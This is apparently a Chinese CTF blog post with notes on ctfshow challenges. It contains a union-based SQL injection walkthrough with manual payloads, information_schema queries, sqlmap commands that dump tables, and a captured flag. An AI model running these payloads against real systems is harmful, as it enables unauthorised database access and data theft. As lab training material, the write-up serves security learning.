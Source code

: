 ```yaml
---
layout:     post
title:      2021-08-09-ctfshow做题笔记
subtitle:   2021-08-09-ctfshow做题笔记
date:       2021-8-9
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 笔记
    - ctf
---
```


**作者：鸿鹄（阳阳）**

## crypto




## web

#### web 签到题

1. F12打开控制台,源码注释发现字符串,根据经验进行base64解码即可.[https://base64.us/](https://base64.us/)
2. 也可以view-source

#### web2

- 方法一

简单的sql注入,我们使用万能密码发现注入点在username,并且有回显

[![f1vRnP.png](https://z3.ax1x.com/2021/08/09/f1vRnP.png)](https://imgtu.com/i/f1vRnP)

然后进行常规手工注入即可

```mysql
sql手工注入常用语句：

普通语句：schema_name——数据库名；table_name——表名；column_name——字段名；

查询数据库：select schema_name from information_schema.schemata#

　　　　　　slelect database()#

查询数据库表：select table_name from information_schema.tables where table_schema='数据库名'#

查询字段名：select column_name from infromation_schema.columns where table_name='表名'#

查询字段内容：select * from 表名#
```



```sql
admin' or 1=1 order by 3#	//有回显
admin' or 1=1 order by #	//无回显

admin' or 1=1 union select 1,2,3#	//位置是2

admin' or 1=1 union select 1,database(),3#	//数据库名字是web2

admin' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#	//表名字为flag,user

admin' or 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flag"#	// 字段名为flag

admin' or 1=1 union select 1,flag,3 from flag#	//得到flag
```

ctfshow{add81b69-8f21-4e43-b091-105ef61e4a71}

- 方法二

  直接sqlmap跑即可

  1. 把之前抓取的数据复制到sqlmap根目录下test.txt内[![f39XY8.png](https://z3.ax1x.com/2021/08/09/f39XY8.png)](https://imgtu.com/i/f39XY8)

  2. 保存完成后开始跑

      ```
      python sqlmap.py -r test.txt --dbs
      python sqlmap.py -r test.txt -D web2 --tables
      python sqlmap.py -r test.txt -D web2 -T flag --columns
      python sqlmap.py -r test.txt -D web2 -T flag -C flag --dump
      ```

## web入门

#### web1







